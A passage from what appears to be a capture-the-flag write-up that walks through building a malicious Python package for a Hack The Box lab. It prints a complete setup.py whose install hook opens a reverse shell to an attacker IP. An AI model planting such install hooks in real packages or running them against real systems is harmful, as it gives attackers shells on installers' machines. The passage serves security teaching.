 `__init__.py` is where a legit application would actually start, and it
must exist for the package to work. I'll just use `touch` to create an
empty file.

I'll also create empty `setup.cfg` and `README.md` files. `README.md`
should be the documentation for the package. `setup.cfg` should contain
information about where the package metadata and `README.md` are
located. I don't need either, but it's cleaner to include them even as
empty files.

#### setup.py

The malicious code will go into `setup.py`. I've actually created a
malicious `setup.py` before, back in
[Canape](/htb-canape.md#sudo-pip). The tutorial from Linode
shows what a legit `setup.py` looks like. It basically calls `setup`
with a bunch of metadata about the package. [This
GitHub](https://github.com/mschwager/0wned) shows how to add the
malicious part (albeit in the context of `sudo pip` as opposed to in a
package, but it's the same thing).

By default, `setup` has a handful of commands know by `pip` and
`setup.py`, like `install`, `uninstall`, `list,` etc. I can use the
`cmdclass` argument to `setup` to pass in a dictionary of commands with
classes to use for them. The class should have a `run` method, and that
will run. Because I'm expecting this interaction to happen immediately,
I'll just have the `run` function be a reverse shell:



    import os
    import socket
    import subprocess
    from setuptools import setup
    from setuptools.command.install import install

    class Exploit(install):
        def run(self):
            RHOST = '10.10.14.42'
            RPORT = 443
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect((RHOST, RPORT))
            for i in range(3):
                os.dup2(s.fileno(), i)
            p = subprocess.call(["/bin/sh","-i"])

    setup(name='revshell',
          version='0.0.1',
          description='Reverse Shell',
          author='0xdf',
          author_email='0xdf',
          url='http://sneakycopy.htb',
          license='MIT',
          zip_safe=False,
          cmdclass={'install': Exploit})
